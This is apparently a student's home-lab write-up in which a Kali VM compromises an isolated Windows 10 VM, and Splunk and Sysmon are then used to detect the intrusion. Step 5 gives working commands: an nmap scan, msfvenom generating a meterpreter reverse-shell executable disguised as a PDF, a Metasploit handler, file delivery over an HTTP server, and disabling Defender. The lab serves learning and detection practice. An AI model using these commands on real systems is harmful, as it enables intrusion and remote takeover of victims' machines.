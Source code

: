 Home Lab Project


Purpose of a home lab
As a student who is aspiring to break into the cybersecurity field, I have learnt that hands-on experience is essential to be kept in the loop as the field is everchanging. A home lab allows for me to test out real-world problems, experiment and learn to understand how attacks occur in a safe, sandboxed environment. For this project, I will set up two virtual machines (one running Kali Linux and the other running Windows 10) and have one act as an attacker and the other as a target. I will try to gain access to the Windows virtual machine’s shell via a reverse shell attack. A reverse shell attack initiates a shell session and allows for the attacker to redirect the input and outputs of the shell so that it can be used by the attacker. The delivery method of this attack that I will use is an .exe file disguised as a .pdf.


Steps followed
1.	First, I chose a hosted hypervisor. I chose Virtualbox because I was familiar with it and had previously used it.
2.	Next, I downloaded Kali Linux and the Windows 10 ISO from their respective websites and set them up on Virtualbox.
3.	I downloaded Sysmon and Splunk on the Windows 10 machine at this point as it still has a connection to the internet.
4.	Both virtual machines were then both configured to be part of their own internal network, meaning they could communicate with each other but did not have an active connection to the internet. Static IPs were set for each one.
5.	Creating infected file on Kali Linux VM using the terminal :

        a.	“nmap -A {Windows 10 VM IP} -Pn “ – scans for any open ports on the target machine
        
        b.	Returned that port 3389 was exposed
  
        c.	“msfvenom -p windows/x64/meterpreter_reverse_tcp lhost={Kali VM IP} lport=4444 -f exe -o Report.pdf.exe” – this command specifies the payload of the attack (reverse tcp), specifies the host of the attack, the port and the file and it’s format.

  	![kaliImage](images/Picture1.png)

  	    d.	“msfconsole” -> “use exploit/multi/handler” -> “set payload windows/x64/meterpreter/reverse_tcp “ – sets the payload option
  	
        e.	“exploit” – starts the handler
  	
        f.	“python3 -m http.server 999” – allows for the Windows machine in the same network to access the infected file 

![HTTP-Server](images/Picture2.png)

![Directory](images/Picture3.png)

        g.	Disable Windows Defender and open the file on the Windows VM

  	    h.	Looking at the Kali machine should show that you are connected to the target and should allow you to execute commands on it 
 
![Meterpreter](images/Picture4.png)


7.	Access Splunk and create an index with the name ‘endpoint’
 ![Splunk](images/Picture5.png)

8.	Go to the search and reporting app on Splunk and type ‘index=”endpoint” {Kali IP Address}’ 

![Splunk2](images/Picture6.png)
 
9.	Looking at the fields, we can see that the Kali Linux machine is accessing a port, which would be something of interest to investigate.

![Fields](images/Picture7.png)
 
10.	Looking further into the event IDs, we can see that the issue comes from the Report.pdf.exe.
 
![EventIDs](images/Picture8.png)

This was a simple demonstration of how exploits can be used to target exposed ports, how malware can take control of a victim’s computer and how tools like Splunk can be used to detect unusual events which can allow for the user to take action and solve the problem
